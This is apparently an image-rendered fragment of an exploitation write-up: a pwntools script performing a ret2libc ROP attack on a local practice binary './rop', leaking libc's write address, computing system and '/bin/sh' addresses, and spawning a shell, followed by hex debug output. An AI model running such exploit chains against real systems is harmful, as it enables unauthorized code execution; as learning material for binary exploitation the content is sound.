 ```python

log.info("Receiving write address")
leaked_address = proc.recv(8)
write_libc_address = u64(leaked_address)

log.info(f"write address in libc: {hex(write_libc_address)}")
libc_address = write_libc_address - write_libc_offset

# Calculate required addresses
system_libc_address = libc_address + system_libc_offset
sh_libc_address = libc_address + sh_libc_offset
exit_libc_address = libc_address + exit_libc_offset

log.info(f"system address in libc: {hex(system_libc_address)}")
log.info(f"sh address in libc: {hex(sh_libc_address)}")

log.info("Stage two")

shellcode = b'A'*72 + p64(rdi_gadget) + p64(sh_libc_address) + p64(system_libc_address) + p64(exit_libc_address)


log.info("Send second payload")
proc.send(shellcode)
proc.recv()

log.info("Shell spawned")
proc.interactive()
```

```txt
[+] Starting local process './rop' argv=[b'./rop'] : pid 7815
[*] Stage one
[*] Receive input
[DEBUG] Received 0x7 bytes:
    b'Input: '
[*] Send first payload
[DEBUG] Sent 0x80 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  13 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000050  01 00 00 00  00 00 00 00  11 06 40 00  00 00 00 00  │····│····│··@·│····│
    00000060  18 10 60 00  00 00 00 00  00 00 00 00  00 00 00 00  │··`·│····│····│····│
    00000070  30 04 40 00  00 00 00 00  37 05 40 00  00 00 00 00  │0·@·│····│7·@·│····│
    00000080
[*] Receiving write address
[DEBUG] Received 0x287 bytes:
    00000000  20 e5 23 3a  07 7f 00 00  80 e4 23 3a  07 7f 00 00  │ ·#:│····│··#:│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000280  49 6e 70 75  74 3a 20                               │Inpu│t: │
    00000287
[*] write address in libc: 0x7f073a23e520
[*] system address in libc: 0x7f073a195e50
[*] sh address in libc: 0x7f073a2db143
[*] Stage two
[*] Send second payload
[DEBUG] Sent 0x68 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  13 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000050  43 b1 2d 3a  07 7f 00 00  50 5e 19 3a  07 7f 00 00  │C·-:│····│P^·:│····│
    00000060  30 b5 18 3a  07 7f 00 00                            │0··:│····│
    00000068
```